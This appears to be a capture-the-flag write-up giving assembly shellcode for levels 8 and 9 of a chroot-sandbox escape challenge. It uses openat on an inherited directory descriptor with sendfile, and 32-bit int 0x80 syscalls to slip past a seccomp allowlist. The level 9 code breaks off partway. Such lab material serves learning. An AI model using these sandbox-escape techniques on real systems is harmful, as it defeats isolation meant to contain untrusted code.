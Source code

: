 &nbsp;

## level 8 
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: ."openat", "read", "write", "sendfile".

```
.global _start
.intel_syntax noprefix

_start:
	# Openat syscall
	mov rdi, 3
	lea rsi, [rip + flag]
	mov rdx, 0
	mov r10, 0
	mov rax, 0x101
	syscall

	# Sendfile syscall
	mov rdi, 1
	mov rsi, rax
	mov rdx, 0
	mov r10, 1000
	mov rax, 0x28
	syscall

	# Exit syscall
	mov rdi, 0
	mov rax, 0x3c
	syscall

flag:
	.string "flag"
```

&nbsp;

## level 9
> Escape a chroot sandbox using shellcode, but this time only using the following syscalls: "close", "stat", "fstat", "lstat".
```
.global _start
.intel_syntax noprefix

_start:
	# Open syscall
	lea ebx, [eip + flag]
	mov ecx, 0
	mov edx, 0
	mov eax, 0x05
	int 0x80

	# Read syscall
	mov ebx, 3
	mov ecx, content
	mov edx, 1000
	mov eax, 0x03
	int 0x80

	# Write syscall
	mov ebx, 1
	mov ecx, content
	mov edx, 1000
```